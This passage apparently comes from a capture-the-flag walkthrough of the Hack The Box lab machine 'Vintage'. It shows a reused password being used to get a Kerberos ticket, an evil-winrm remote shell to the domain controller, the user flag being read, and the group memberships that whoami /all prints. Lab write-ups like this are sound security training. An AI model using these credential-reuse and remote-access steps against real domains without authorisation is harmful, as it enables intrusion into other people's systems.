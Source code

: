 
Looks like the password works for the `C.Neri` user as well. Let's see what this user has access to.

<p align="center">
  <img src="/machines/vintage/cneri_group.png" alt="c.neri group" />
</p>

Because this user belongs to the `Remote Management Users` group, we could log in using WinRM.

# Auth as c.neri

## User Flag

```bash
getTGT.py -dc-ip 10.10.11.45 vintage.htb/c.neri:<c.neri_password>
export KRB5CCNAME=$(realpath c.neri.ccache)
Machines/Hard/Vintage on  main [!?]
❯ evil-winrm -i dc01.vintage.htb -r vintage.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> cat user.txt
deadbeefc3fe5f808b096feb00b0fake
*Evil-WinRM* PS C:\Users\C.Neri\Desktop>
```

## Enumeration

```powershell
*Evil-WinRM* PS C:\Users\C.Neri> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
vintage\c.neri S-1-5-21-4024337825-2033394866-2055507597-1115


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
```